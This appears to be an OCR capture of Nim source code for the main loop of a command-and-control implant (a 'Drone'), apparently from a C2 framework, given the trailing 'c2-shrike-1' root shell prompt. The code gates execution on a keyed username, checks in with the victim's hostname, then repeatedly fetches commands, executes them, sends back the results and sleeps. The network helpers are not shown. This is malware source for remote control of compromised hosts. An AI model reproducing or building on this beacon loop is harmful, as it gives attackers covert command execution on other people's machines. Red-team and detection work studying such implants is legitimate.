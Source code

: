 

# Main
when isMainModule:
    try:
        let opts = p.parse()
        
        if opts.ver:
            echo "[*] Drone ready!"
        
        if opts.ver:
            echo "[*] Checking keyed username..."
        var is_keyed = wake_up(keyed_username)


        if not is_keyed:
            echo "\U0001f97a\U0001f97a\U0001f622\U0001f622\U0001f622\U0001f62d\U0001f62d\U0001f62d\U0001f602\U0001f602\U0001f923\U0001f923"
            quit()
        else:
            if opts.ver:
                echo "[*] Key matches!"
            
            var hostname = getHostName()
            uid = initial_check_in(hostname)
            
            if opts.ver:
                echo "[*] My UID is: " & uid
                echo "[*] Hostname: " & hostname
            
            # Command loop
            while true:
                if opts.ver:
                    echo "[*] Checking for command..."
                
                var command = check_for_commands()
                if opts.ver:
                    echo "[*] Command to run: " & command
                
                var res = command_handler(command)
                if opts.ver:
                    echo "[*] Result: " & strip(res)
                
                send_results(strip(res))
                
                if opts.ver:
                    echo "[*] Sleeping: " & $sleep_interval
                sleep(sleep_interval)
    
    except ShortCircuit as e:
            if e.flag == "argparse_help":
                echo p.help
                quit(1)
    
    except UsageError:
        stderr.writeLine getCurrentExceptionMsg()
        quit(1)
        root@c2-shrike-1:/python-docker/agent# 
